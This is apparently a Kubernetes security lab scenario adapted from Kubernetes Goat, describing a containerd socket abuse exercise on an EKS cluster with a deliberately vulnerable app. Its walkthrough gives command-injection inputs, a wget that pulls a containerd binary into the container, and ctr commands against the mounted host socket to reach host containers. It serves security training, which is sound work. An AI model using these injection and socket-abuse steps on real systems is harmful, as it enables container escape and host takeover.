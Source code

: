 # Scenario: ContainerD Abuse

## Prerequisites

- Playground One EKS EC2 Cluster
- Vision One Container Security
- Playground One Scenarios
    - Running app: System Monitor

Ensure to have the EKS EC2 Cluster including the Scenarios up and running:

```sh
pgo --apply eks-ec2
pgo --apply scenarios-ec2
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but heavily adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

By the end of the scenario, you will understand and learn the following:

- You will learn to test and exploit the container UNIX socket misconfigurations
- Able to exploit container and escape out of the container
- Learn about ContainerD
- Learn common misconfigurations in pipelines and CI/CD build systems

## The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit a very similar misconfiguration and gain access to the host system by escaping out of the container.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_health_check>`

## Goals

The goal of this scenario is to escape out of the running container to the host system where the container is running and able to access and perform actions on the host system.

> ***Tip:*** If you are able to obtain containers running in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation, e.g. spinning up an additional container.

### Hints

<details>
<summary>Click here</summary>

✨ Do you know how to run multiple commands in Linux?
<br><br>
The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌
<br><br>
✨ Able to run system commands, not sure how to access containers?
<br><br>
Identify the mounted UNIX socket volume, and use `ctr` binary to communicate with that with <b>-H</b> flag 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain.
<br><br>
It contains `/containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

Wow! We can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket via gRPC.
<br><br>
Note: We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [official containerd binary](https://containerd.io/downloads/), or a simple `grpcurl` program as well.
<br><br>
The easiest way to interact with containerd is to use the `ctr` command. We can download the official `ctr` static binary from the internet [https://containerd.io/downloads/](https://containerd.io/downloads/).
<br><br>
Then download the appropriate containerd binary to the container. We can use the following command (takes some time, be patient).

```bash
; wget https://github.com/containerd/containerd/releases/download/v1.6.20/containerd-1.6.20-linux-amd64.tar.gz -O /tmp/containerd-1.6.20.tgz
```

We can extract the binary from the `containerd-1.6.20.tgz` file so that we can use that to talk to the UNIX socket

```bash
; tar -xvzf /tmp/containerd-1.6.20.tgz -C /tmp/ bin/ctr
```

Now we can access the host system by running the following containerd commands with passing `containerd.sock` containerd's gRPC server. Let's check what is running from kubernetes.

```bash
; /tmp/bin/ctr -a /custom/containerd/containerd.sock -n=k8s.io containers ls
```

Hooray 🥳, now we can see that it has a lot of containers are running in the host system. We can now use different ctr commands to gain more access and further exploitation.
<br><br>
🎉 Success 🎉
<br><br>
If you'd like to create containers now, try it. Be beware of the fact that the design of containerd is that clients should be local to the daemon. Running a client in a container is effectively non-local without some very specific configuration (which will vary depending on what you are trying to do).

</details>

## References

- [Interacting with containerd runtime for kubernetes](https://www.vxav.fr/2021-09-13-interacting-with-containerd-runtime-for-kubernetes/)
